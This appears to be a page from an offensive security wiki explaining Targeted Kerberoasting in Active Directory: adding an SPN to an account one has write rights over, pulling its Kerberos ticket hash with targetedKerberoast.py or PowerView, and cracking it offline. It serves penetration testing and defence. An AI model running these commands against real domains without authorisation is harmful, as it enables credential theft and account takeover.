 ```yaml
---
authors: ShutdownRepo, sckdev
category: ad
---
```


# Targeted Kerberoasting

This abuse can be carried out when controlling an object that has a `GenericAll`, `GenericWrite`, `WriteProperty` or `Validated-SPN` over the target. A member of the [Account Operator](../builtins/security-groups) group usually has those permissions.

The attacker can add an SPN (`ServicePrincipalName`) to that account. Once the account has an SPN, it becomes vulnerable to [Kerberoasting](../kerberos/kerberoast.md). This technique is called Targeted Kerberoasting. 

::: tabs

=== UNIX-like

From UNIX-like systems, this can be done with [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) (Python)

```bash
targetedKerberoast.py -v -d "$DC_HOST" -u "$USER" -p "$PASSWORD"
```


=== Windows

From Windows machines, this can be achieved with [Set-DomainObject](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/) and [Get-DomainSPNTicket](https://powersploit.readthedocs.io/en/latest/Recon/Get-DomainSPNTicket/) ([PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1) module).

```bash
# Make sur that the target account has no SPN
Get-DomainUser 'victimuser' | Select serviceprincipalname

# Set the SPN
Set-DomainObject -Identity 'victimuser' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

# Obtain a kerberoast hash
$User = Get-DomainUser 'victimuser'
$User | Get-DomainSPNTicket | fl

# Clear the SPNs of the target account
$User | Select serviceprincipalname
Set-DomainObject -Identity victimuser -Clear serviceprincipalname
```

:::


Once the Kerberoast hash is obtained, it can possibly be [cracked](../credentials/cracking.md) to recover the account's password if the password used is weak enough.